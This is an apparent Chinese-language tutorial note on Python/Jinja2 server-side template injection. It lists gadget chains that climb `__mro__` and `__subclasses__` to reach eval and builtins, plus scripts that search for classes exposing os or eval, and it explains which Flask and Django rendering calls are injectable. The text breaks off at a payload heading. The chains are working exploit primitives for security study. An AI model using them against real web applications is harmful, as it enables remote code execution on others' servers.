 

python3：
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']
"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']


jinja2下的给一个poc：

request.__class__.__mro__[8].__subclasses__()[40]


```
寻找os类 eval方法 call方法 ```__import__```:

```
#!/usr/bin/env python
# encoding: utf-8

cnt=0
for item in [].__class__.__base__.__subclasses__():
    try:
        if 'os' in item.__init__.__globals__:
            print cnt,item
        cnt+=1
    except:
        print "error",cnt,item
        cnt+=1
        continue


```
```
#!/usr/bin/env python
# encoding: utf-8

cnt=0
for item in "".__class__.__mro__[-1].__subclasses__():
    try:
        cnt2=0
        for i in item.__init__.__globals__:
            if 'eval' in item.__init__.__globals__[i]:
                print cnt,item,cnt2,i
            cnt2+=1
        cnt+=1
    except:
        print "error",cnt,item
        cnt+=1
        continue

```


以flask为例，如果是直接return render_template('home.html', url=request.args.get('p'))就基本不存在ssti了，render_template_string存在ssti,而django中的如果使用return render(request,'xxx.html',var)也基本是安全的。





python3 环境中寻找eval：

![findeval](https://upload.cc/i1/2019/09/19/FNkiTX.png)

构造payload:

```